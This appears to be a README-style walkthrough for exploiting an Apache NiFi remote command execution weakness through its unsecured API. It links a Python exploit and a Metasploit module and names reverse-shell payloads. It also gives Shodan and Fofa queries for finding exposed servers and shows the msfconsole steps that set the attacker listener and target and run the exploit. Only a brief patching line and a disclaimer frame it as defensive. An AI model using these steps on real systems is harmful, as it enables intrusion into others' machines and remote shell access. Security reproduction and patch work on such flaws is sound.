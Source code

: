 # Apache NiFi Processor RCE (Oct 3 2020)
Apache NiFi is a software project to automate the flow of data between software systems.  
This module uses the NiFi API to create an ExecuteProcess processor that will execute OS commands. The API must be unsecured (or credentials provided) and the ExecuteProcess processor must be available. An ExecuteProcessor processor is created then is configured with the payload and started. The processor is then stopped and deleted.

API Executing Process: https://nifi.apache.org/docs/nifi-docs/components/org.apache.nifi/nifi-standard-nar/1.12.1/org.apache.nifi.processors.standard.ExecuteProcess/  

Vulnerable architectures: **x86, x64**  
Vulnerable platforms: **Linux, OSX, Unix, Windows**  
Vulnerable protocols: **http, https**  

**Please be aware that this exploit leaves signs of a compromise in a log file (Example: SQL injection data found in HTTP log) and modifies some configuration setting on the target machine, this is not a guide on how to exploit others, this is a guide on how to reproduce the vulnerability and how to fix it.**  

Python Raw Exploit: https://raw.githubusercontent.com/imjdl/Apache-NiFi-Api-RCE/master/exp.py  

MetaSploit Exploit: https://dl.packetstormsecurity.net/2011-exploits/apache_nifi_processor_rce.rb.txt  
MetaSploit Linux Default Payload: **cmd/unix/reverse_bash**  
MetaSploit Windows Default Payload: **cmd/windows/reverse_powershell**  

Shodan Query: `title:"NiFi"`  
Fofa Query: `title=="NiFi"`  

## Using apache_nifi_processor_rce's Exploit
<pre>msf6 > use exploit/multi/http/apache_nifi_processor_rce
[*] Using configured payload cmd/unix/reverse_bash</pre>
## Local IP for Reverse Shell Connection
<pre>msf6 exploit(multi/http/apache_nifi_processor_rce) > set LHOST 192.168.60.7
LHOST => 192.168.60.7</pre>
## Local Port for Reverse Shell Connection
<pre>msf6 exploit(multi/http/apache_nifi_processor_rce) > set LPORT 4444
LPORT => 4444</pre>
## Remote IP for Exploit Execution
<pre>msf6 exploit(multi/http/apache_nifi_processor_rce) > set RHOST 192.168.60.57
RHOST => 192.168.60.57</pre>
## Remote Port for Exploit Execution
<pre>msf6 exploit(multi/http/apache_nifi_processor_rce) > set RPORT 8080
RPORT => 8080</pre>
## Checking Current Exploit Options
<pre>msf6 exploit(multi/http/apache_nifi_processor_rce) > show options</pre>
![msf1](https://user-images.githubusercontent.com/94451745/149518743-e2ad0802-819a-4037-9798-8422f0c236c4.png)
## Running Exploit
<pre>msf6 exploit(multi/http/apache_nifi_processor_rce) > run</pre>
![msf2](https://user-images.githubusercontent.com/94451745/149520071-97c27099-82df-493b-9ead-a5a96afcc29b.png)
## Vulnerability patching
Upgrade to the latest version, add/change current credentials and setup an IP whitelist in your current firewall settings.
